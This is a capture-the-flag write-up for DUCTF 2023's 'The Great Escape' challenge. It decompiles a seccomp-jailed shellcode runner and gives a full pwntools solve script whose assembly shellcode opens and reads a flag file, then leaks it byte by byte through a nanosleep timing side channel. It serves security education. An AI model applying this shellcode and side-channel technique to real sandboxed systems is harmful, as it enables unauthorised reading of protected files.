 ```yaml
---
title: Writeup - The Great Escape (DUCTF 2023)
date: 2023-09-04 00:00:00
tags: 
- writeup
- pwn
- ductf2023
---
```


# DUCTF 2023 - The Great Escape
## Description
```markdown
Do you have an escape plan?

Flag: `/chal/flag.txt`

Author: sradley

`nc 2023.ductf.dev 30010`

[jail]
```

## Writeup
No source code was provided [for this one](/static/ductf-greatescape/escape), but the decomp was pretty easy to obtain through Ghidra:

```c
bool main(void) {
  code *shellcode;
  
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  shellcode = (code *)mmap((void *)0x0,0x80,7,0x22,0,0);
  if (shellcode != (code *)0x0) {
    printf("what is your escape plan?\n > ");
    fgets((char *)shellcode,0x7f,stdin);
    enable_jail();
    (*shellcode)();
  }
  return shellcode == (code *)0x0;
}
```

It reads in 127 bytes of input from the user, places it in a custom RWX section in memory, and runs it as shellcode. However, the `enable_jail()` function is called, which sets up seccomp and only enables the following syscalls (found by running `seccomp-tools dump ./escape`):

* `read`
* `nanosleep`
* `exit`
* `openat`

These syscalls mean you can open `/chal/flag.txt`, read it into memory, but can't write it to stdout. However, using `nanosleep` and `exit` can be used to side channel it by bruting bit by bit. This is an example of how it would flow: 

1. Open `/chal/flag.txt` and get the file descriptor `0x3` back
2. Read x bytes from fd 3 into somewhere in memory (I choose the stack cuz it's easy)
3. Put a single byte from the stack into a register, and compare it to a hex value (like `0x61`, or `'a'`)
4. If the values match, `nanosleep` for 2 seconds. If they don't, exit immediately. 

Using this method, we can run the program and if it takes 2 seconds longer than normal to exit, we know we guessed the right letter. Then, we move on to the next letter and start all over again. 

This does take quite a while because a new network connection needs to be established for each guess, and the flag was somewhat long. I ended up getting many false positives because of network jitter, and (for some reason I don't understand) the program would only wait 0.02 seconds longer with nanosleep no matter what. I ended up implementing a double-check system where if the time it took the program to exit exceeded my defined threshold, it would run it again just to make sure it wasn't a mistake. 

After about an hour of tweaking and waiting, I finally extracted the whole flag. 

*It's also important to note that the program uses `fgets` to read the input, meaning it stops once it hits a newline (`0x0a`). Luckily, there weren't any newlines in the shellcode, except when I had to test the flag at offset 0x0a. However, this was obviously an underscore so it was easy to guess. 

### Solve Script
[Solve script](/static/ductf-greatescape/solve.py):

```python
from pwn import *
import time


# initialize the binary
binary = "./escape"
elf = context.binary = ELF(binary, checksec=False)

gs = """
break *(main+197)
continue
"""

flag = ''
def run(i):
    global flag
    if args.REMOTE:
        p = remote("2023.ductf.dev", 30010)
    elif args.GDB:
        p = gdb.debug(binary, gdbscript=gs)
    else:
        p = elf.process()

    p.recvline()

    # flag location - /chal/flag.txt
    # we only get 127 bytes of shellcode
    payload = f'''
    // openat(0, "/chal/flag.txt", 0)
    // dirfd is ignored, 0 is READONLY
    OPENAT:
    mov rax, 257
    mov rdi, 0
    mov rsi, 0x7478742e6761
    push rsi
    mov rsi, 0x6c662f6c6168632f
    push rsi
    mov rsi, rsp
    mov rdx, 0
    syscall

    // read(3, rsp, 0x100)
    READ:
    mov rdi, rax
    mov rax, 0
    mov rdx, 0x100
    syscall

    // compare
    COMPARE:
    add rsp, {hex(len(flag))}
    mov al, byte ptr [rsp]
    cmp al, {hex(ord(i))}
    je NANOSLEEP;

    // exit
    EXIT:
    mov rax, 60
    syscall

    // nanosleep(*-->0x2, 0)
    NANOSLEEP:
    mov QWORD PTR [rbx], 0x5
    mov rdi, rbx
    mov rsi, 0
    mov rax, 35
    syscall
    '''

    compiled = asm(payload)
    #print(f'len: {len(compiled)}')

    p.sendline(compiled)


    start_time = time.time()
    try:
        p.recvline()
    except EOFError:
        pass
    diff = time.time() - start_time

    p.close()
    return diff


### START LOOP ###
while '}' not in flag:
    for letter in string.printable:
        diff = run(letter)
        print(f'{letter} - {diff}')

        if diff > 0.19:
            print("Testing again...")

            if run(letter) > 0.19:
                print("FOUND IT", letter)
                flag += letter
                print(f'Flag: {flag}')
                break
            else:
                print("False positive")
```

**Flag**: `DUCTF{S1de_Ch@nN3l_aTT4ckS_aRe_Pr3tTy_c00L!}`